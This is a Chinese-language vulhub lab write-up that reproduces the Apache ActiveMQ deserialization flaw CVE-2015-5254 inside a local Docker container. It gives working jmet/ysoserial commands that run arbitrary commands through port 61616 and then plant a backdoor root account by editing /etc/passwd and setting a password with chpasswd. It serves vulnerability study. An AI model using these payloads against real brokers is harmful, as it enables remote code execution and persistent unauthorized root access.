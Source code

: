 # 序

采用网上的vulhub的漏洞环境进行复现，直接通过docker部署即可。

# 漏洞介绍

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服
务、集群、Spring Framework等。

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。
远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码
。

# 漏洞复现

## 环境搭建

```bash
docker-compose up -d
```

查看搭建好的docker

```bash
docker ps
```

使用浏览器直接访问activemq，查看是否部署完毕

`http://192.168.221.185:8161/admin/`

默认的用户名/密码为`admin/admin`

![1541062943217](F:\学习资料\github\vulhub-writeup\vulhub-writeup\cve-2015-5254\assets\1541062943217.png?raw=true)

## 漏洞复现

这个漏洞靠的是攻击端口61616来实现，所以其实不需要打开web页面。

1. 构造可执行命令的序列化对象，可以通过ysoserial或jmet来实现。

   下载jmet

   ```bash
   git clone https://github.com/matthiaskaiser/jmet.git
   ```

   或者是直接下载已编译好的jar文件，我这里采用的是直接下载编译好的文件。

   ```
   wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
   ```

   下载完成后，需要在该jar所处的文件夹中新建一个external的文件夹（否则会报文件夹不存在的错误）。

   ```bash
   cd /jmet/
   mkdir external
   ```

   jmet的原理是利用ysoserial生成payload并发送（jmet的jar中自带了ysoserial）。

   执行命令

   ```
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/sucess" -Yp ROME 192.168.221.185 61616
   ```

   ![1541064135350](F:\学习资料\github\vulhub-writeup\vulhub-writeup\cve-2015-5254\assets\1541064135350.png)

   然后，我们可以去浏览器中查看这个队列的信息。

   `http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`

   ![1541064180402](F:\学习资料\github\vulhub-writeup\vulhub-writeup\cve-2015-5254\assets\1541064180402.png)

   可以发现，队列信息是存在的，然后我们需要点击一下这个页面中的消息，命令方可触发。

   接下来，我们再前往漏洞系统中查看，是否真的创建成功一个文件了。

   ```bash
   docker ps
   
   root@heary-virtual-machine:/baji/vulhub/activemq/CVE-2015-5254# docker ps
   CONTAINER ID        IMAGE                    COMMAND                  CREATED             STATUS              PORTS                                              NAMES
   c5090663fb09        vulhub/activemq:5.11.1   "/bin/sh -c 'bin/act…"   5 seconds ago       Up 3 seconds        0.0.0.0:8161->8161/tcp, 0.0.0.0:61616->61616/tcp   cve20155254_activemq_1
   ```

   我们看到容器的CONTAINER ID是c5开头的。

   ```bash
   docker exec -it c5 /bin/bash
   ```

   成功进入容器的命令行以后，去查看一下刚刚创建的文件是否存在

   ```
   cd /tmp
   ls 
   ```

   ![1541064367530](F:\学习资料\github\vulhub-writeup\vulhub-writeup\cve-2015-5254\assets\1541064367530.png)

   可以看到，成功创建了success文件。说明反序列化命令执行成功。

   ## 创建用户

   

   根据上面的情况来看，既然可以执行命令，那么也可以创建用户，让我们试一下。

   执行jmet的命令

   ```bash
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "useradd -g root -s /bin/bash -u 10010 test" -Yp ROME 192.168.221.185 61616
   ```

   返回`http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

   然后，让我们再将passwd中的test的uid修改为0，使它拥有root权限

   ```bash
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "sed -i "s/test:x:10010/test:x:0/g" /etc/passwd" -Yp ROME 192.168.221.185 61616
   ```

   返回`http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

   接下来，让我们再为test用户设置一个密码

   ```bash
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "echo "test:123456" | chpasswd" -Yp ROME 192.168.221.185 61616
   ```

   返回`http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

   到此为止，一个权限为root，密码为123456的用户即创建完毕。我们可以使用ssh直接远程登陆进入操作系统，并且还是最高权限。

   